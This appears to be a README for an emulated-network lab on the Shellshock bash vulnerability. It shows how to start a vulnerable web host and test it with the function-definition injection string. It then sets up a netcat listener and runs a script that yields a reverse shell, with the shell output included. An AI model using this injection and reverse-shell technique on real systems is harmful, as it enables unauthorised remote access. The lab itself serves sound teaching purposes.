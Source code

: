# Shellshock attack

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_http.sh](start_http.sh) command to start the http server and deploy a
vulnerable version of bash on the host node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` command whether the http server
is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
  9733 ??  IsJ  0:00.00 rpcbind
  9735 ??  IsJ  0:00.00 inetd
  9895 ??  SJ   0:00.00 lighttpd -f /usr/local/etc/lighttpd/lighttpd.conf
  9897  2  SJ   0:00.01 csh
  9911  2  R+J  0:00.00 ps ax
```
You can also sheck whether the vulnerable bash version is deployed on the host:
```console
root@host:/ # bash
[root@host /]# env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
vulnerable
this is a test
```
The same procedure on the PC node should result in the following output:
```console
root@PC:/ # bash
[root@PC /]# env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

## Executing the attack
First we start a `netcat` process on the Attacker that will listen for incoming
connections:
```console
root@Attacker:/ # nc -l 8080
```
After the process is started we execute the [shellshock.sh](shellshock.sh)
script that will exploit the shellshock vulnerability to give a simple reverse
TCP shell to the Attacker on TCP port 8080.

```console
# ./shellshock.sh
```

After the execution the `netcat` process will get the reverse shell:
```console
root@Attacker:/ # nc -l 8080
bash: no job control in this shell
[www@host /root/www.host]$ ls
ls
form.sh
freebsd.gif
index.html
[www@host /root/www.host]$ 
```
